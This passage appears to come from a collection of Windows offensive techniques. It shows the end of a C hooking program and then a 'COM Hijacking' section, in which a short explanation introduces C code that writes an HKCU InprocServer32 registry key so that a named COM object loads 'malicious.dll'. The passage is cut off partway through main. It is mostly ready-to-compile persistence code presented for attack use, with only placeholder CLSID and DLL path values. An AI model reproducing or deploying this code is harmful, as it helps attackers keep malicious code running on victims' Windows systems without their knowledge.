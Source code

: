 ```
    printf("Hook set successfully. Press any key to unhook...\n");
    getchar();

    if (!UnsetHook()) {
        printf("Failed to unset hook.\n");
        return 1;
    }

    printf("Hook unset successfully.\n");
    return 0;
}
```


### COM Hijacking

Hijacking COM objects to control svchost

```
com_hijack.exe svchost.exe
```



COM (Component Object Model) Hijacking is a persistence technique where an attacker manipulates registry entries to redirect or intercept calls to legitimate COM objects. This can be used to execute malicious code when a specific COM object is invoked.

```
#include <windows.h>
#include <stdio.h>

// CLSID of a legitimate COM object (for demonstration purposes only)
// You should replace this with a real CLSID
#define TARGET_CLSID L"{12345678-1234-1234-1234-123456789012}"

// Path to the malicious DLL that will be invoked instead of the legitimate COM object
#define MALICIOUS_DLL_PATH L"C:\\path\\to\\malicious.dll"

BOOL SetCOMHijack() {
    HKEY hKey;
    LONG lResult;
    WCHAR szKeyPath[256];

    // Construct the registry key path
    wsprintf(szKeyPath, L"Software\\Classes\\CLSID\\%s\\InprocServer32", TARGET_CLSID);

    // Open or create the registry key
    lResult = RegCreateKeyEx(HKEY_CURRENT_USER, szKeyPath, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL);
    if (lResult != ERROR_SUCCESS) {
        return FALSE;
    }

    // Set the default value to the path of the malicious DLL
    lResult = RegSetValueEx(hKey, NULL, 0, REG_SZ, (const BYTE*)MALICIOUS_DLL_PATH, (wcslen(MALICIOUS_DLL_PATH) + 1) * sizeof(WCHAR));
    RegCloseKey(hKey);

    return (lResult == ERROR_SUCCESS);
}

int main() {
    if (SetCOMHijack()) {
        printf("COM Hijacking set successfully.\n");
    } else {
```